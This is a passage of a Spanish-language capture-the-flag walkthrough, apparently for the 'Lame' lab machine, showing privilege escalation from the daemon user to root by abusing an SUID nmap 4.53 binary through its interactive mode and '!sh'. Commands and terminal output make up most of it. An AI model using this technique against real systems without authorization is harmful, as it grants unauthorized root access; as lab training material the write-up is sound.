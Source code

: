 ```bash
./usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
./usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
daemon@lame:/$
```

Vemos que tenemos permisos SUID para `nmap`, así que primero vemos que versión de la herramienta cuenta el sistema.

```bash
daemon@lame:/$ nmap -v

Starting Nmap 4.53 ( http://insecure.org ) at 2021-08-27 23:19 EDT
Read data files from: /usr/share/nmap
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.011 seconds
           Raw packets sent: 0 (0B) | Rcvd: 0 (0B)
daemon@lame:/$
```

Debido a la versión, podemos iniciar una sesión interactiva y de ahí obtener una shell como el usuario administrador

[Gtfobins](https://gtfobins.github.io/gtfobins/nmap/#suid)

```bash
daemon@lame:/$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```

Ya somos **root** del equipo y podemos visualizar la flag (root.txt).
